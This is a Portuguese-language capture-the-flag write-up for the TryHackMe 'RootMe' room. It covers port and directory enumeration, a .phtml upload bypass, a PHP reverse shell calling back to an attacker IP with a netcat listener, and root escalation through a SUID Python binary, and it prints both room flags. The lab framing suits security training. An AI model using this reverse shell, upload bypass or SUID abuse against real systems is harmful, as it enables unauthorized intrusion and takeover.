

<p align="center">
  
</p>
# RootMe — TryHackMe | Write-up
 
> Walkthrough / anotações da resolução da sala **RootMe** do TryHackMe.
> Objetivo: explorar o upload de arquivos de uma aplicação web para obter um shell
> e, em seguida, escalar privilégios via binário SUID até o `root`.
 
**Autor:** Matheus Campos Pereira
 
---
 
## Índice
 
1. [Informações do alvo](#informações-do-alvo)
2. [Metodologia](#metodologia)
3. [Fase 1 — Reconhecimento e Enumeração](#fase-1--reconhecimento-e-enumeração)
   - [1.1 Scan de portas e serviços (Nmap)](#11-scan-de-portas-e-serviços-nmap)
   - [1.2 Enumeração web (Gobuster)](#12-enumeração-web-gobuster)
4. [Fase 2 — Acesso Inicial (Foothold)](#fase-2--acesso-inicial-foothold)
   - [2.1 Bypass de upload com .phtml](#21-bypass-de-upload-com-phtml)
   - [2.2 Reverse shell e Flag 1](#22-reverse-shell-e-flag-1)
5. [Fase 3 — Escalonamento de Privilégios](#fase-3--escalonamento-de-privilégios)
   - [3.1 Busca por binários SUID](#31-busca-por-binários-suid)
   - [3.2 Exploração do Python SUID e Flag 2](#32-exploração-do-python-suid-e-flag-2)
6. [Resumo das flags](#resumo-das-flags)
7. [Ferramentas utilizadas](#ferramentas-utilizadas)
---
 
## Informações do alvo
 
| Item              | Valor            |
|-------------------|------------------|
| **IP do alvo**    | `10.67.176.90`   |
| **IP do atacante**| `10.67.114.225`  |
| **Sala**          | RootMe           |
| **Plataforma**    | TryHackMe        |
| **Dificuldade**   | Easy · 45 min    |
 
---
 
## Metodologia
 
```
Reconhecimento → Enumeração Web → Bypass de Upload → Reverse Shell → Binário SUID → Root
```
 
---
 
## Fase 1 — Reconhecimento e Enumeração
 
### 1.1 Scan de portas e serviços (Nmap)
 
```bash
nmap -sC -sV 10.67.176.90
```
 
**Serviços expostos:**
 
| Porta  | Serviço | Versão                                   |
|--------|---------|------------------------------------------|
| 22/tcp | ssh     | OpenSSH 8.2p1 (Ubuntu)                    |
| 80/tcp | http    | Apache httpd 2.4.41 (Ubuntu) — *HackIT - Home* |
 
### 1.2 Enumeração web (Gobuster)
 
```bash
gobuster dir -u http://10.67.176.90/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,js
```
 
**Diretórios encontrados:**
 
| Caminho          | Status | Observação                         |
|------------------|--------|------------------------------------|
| `/uploads`       | 301    | Destino dos arquivos enviados      |
| `/panel`         | 301    | Painel com formulário de upload    |
| `/css`           | 301    | Estáticos                          |
| `/js`            | 301    | Estáticos                          |
| `/server-status` | 403    | Acesso proibido                    |
 
> A combinação **`/panel` (upload)** + **`/uploads` (arquivos acessíveis)** indica o vetor:
> subir um webshell e executá-lo pela URL.
 
---
 
## Fase 2 — Acesso Inicial (Foothold)
 
### 2.1 Bypass de upload com .phtml
 
O painel bloqueia extensões `.php`, mas aceita **`.phtml`**, que o Apache também interpreta
como PHP. Criar o arquivo `shell.phtml` com um reverse shell:
 
```php
<?php
$ip = '10.67.114.225';
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```
 
### 2.2 Reverse shell e Flag 1
 
Na máquina de ataque, abrir o listener:
 
```bash
nc -lvnp 4444
```
 
Fazer o upload de `shell.phtml` em `/panel` e, em seguida, acioná-lo acessando
`http://10.67.176.90/uploads/shell.phtml` no navegador. A conexão volta para o listener
como `www-data`.
 
Procurar a primeira flag:
 
```bash
cat /var/www/*.txt 2>/dev/null
ls -la /home
find / -name "*.txt" 2>/dev/null | grep -i flag
```
 
```
Flag 1 (user): THM{y0u_g0t_a_sh3ll}
```
 
---
 
## Fase 3 — Escalonamento de Privilégios
 
### 3.1 Busca por binários SUID
 
```bash
find / -perm -4000 2>/dev/null
```
 
```
/usr/bin/python
```
 
> O **Python** está com a bit SUID ativa — pode ser abusado para executar comandos
> mantendo os privilégios do dono do binário (root).
 
### 3.2 Exploração do Python SUID e Flag 2
 
Primeiro, estabilizar o shell (TTY interativo):
 
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
 
Depois, usar o Python SUID para abrir um shell preservando os privilégios (`-p`):
 
```bash
/usr/bin/python -c 'import os;os.execl("/bin/sh","sh","-p")'
id      # confirma euid=0 (root)
cat /root/root.txt
```
 
```
Flag 2 (root): THM{pr1v1l3g3_3sc4l4t10n}
```
 
Acesso **root** obtido. ✅
 
---
 
## Resumo das flags
 
| # | Flag                          | Como foi obtida                              |
|---|-------------------------------|----------------------------------------------|
| 1 | `THM{y0u_g0t_a_sh3ll}`        | Reverse shell via upload de `.phtml`         |
| 2 | `THM{pr1v1l3g3_3sc4l4t10n}`   | Abuso do binário Python com SUID             |
 
---
 
## Ferramentas utilizadas
 
- **Nmap** — scan de portas e detecção de serviços/versões
- **Gobuster** — enumeração de diretórios e arquivos web
- **Netcat (nc)** — listener para o reverse shell
- **PHP (.phtml)** — webshell / payload de reverse shell
- **find** — busca por arquivos de flag e binários SUID
- **Python** — estabilização do TTY e exploração do SUID (GTFOBins)
 
